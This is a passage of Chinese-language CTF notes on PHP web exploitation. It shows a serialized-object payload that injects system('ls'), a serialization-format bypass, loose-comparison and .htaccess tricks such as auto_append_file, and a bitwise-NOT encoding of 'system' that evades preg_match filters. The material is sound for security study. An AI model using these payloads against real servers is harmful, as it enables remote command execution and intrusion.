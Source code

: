 ```php
        echo "<h1>hello!!!<h1/>";
    }
```

显然`$name`能被我们控制, 且存在`__weakup`魔术方法, 我们可以将`$name`替换成我们需要的命令, 用如下方式构造 payload:

```php
<?php
class person {
    public $name="echo 'I am isee'";
}

$p = new person();
$p->name = "system('ls');";
$p_ser = serialize($p);
echo urlencode($p_ser);
```

#### 1.1.5 绕过技巧

1. 当`:`后面是`+数字`时，会直接跳过`+`号, 例如:
   `O:4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}`
   和
   `O:+4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}`
   是等价的.

### 1.2 奇技淫巧

#### 1.2.1 松散类型比较

- 1. 0==任何字符串, 可以绕过弱类型字符串匹配.

---

#### 1.2.2 .htaccess 文件的利用

- 1. 利用.htaccess 文件修改 php.ini
     我们知道 php 的配置都在 php.ini 这个配置文件中，在修改相应的参数后重启一下 web 服务器即可生效。但是有时我们的空间可能是租用的虚拟主机，没有权限修改服务器的配置，这样可以在代码中通过 ini_set()这个函数修改 php 的相关配置。但是这个函数不是万能的，有些参数（例如 post_max_size）修改不了的。PHP 参数的可修改范围有以下几种

```
 常量	         值	            可修改范围
 PHP_INI_USER	 1	 配置选项可在用户的 PHP 脚本或 Windows 注册表中设置
 PHP_INI_PERDIR	 2	 配置选项可在 php.ini, .htaccess 或 httpd.conf 中设置
 PHP_INI_SYSTEM	 4	 配置选项可在 php.ini 或者 httpd.conf 中设置
 PHP_INI_ALL	 7	 配置选项可在各处设置
```

只要常量值不是 PHP_INI_SYSTEM 都可以在.htaccess 中修改，这样只要我们的空间支持.htaccess 就可以了，格式 php_value 名称 值，例如：

```
php_value memory_limit 1024M
php_value max_execution_time 200
php_value post_max_size 64M
php_value auto_append_file footer.php
```

---

#### 1.2.3 preg_match 绕过

- 1. 亦或取反绕过`preg_match`
     例如:

```php
<?php

echo urlencode(~"system");  // %8C%86%8C%8B%9A%92
echo "<br>";
```
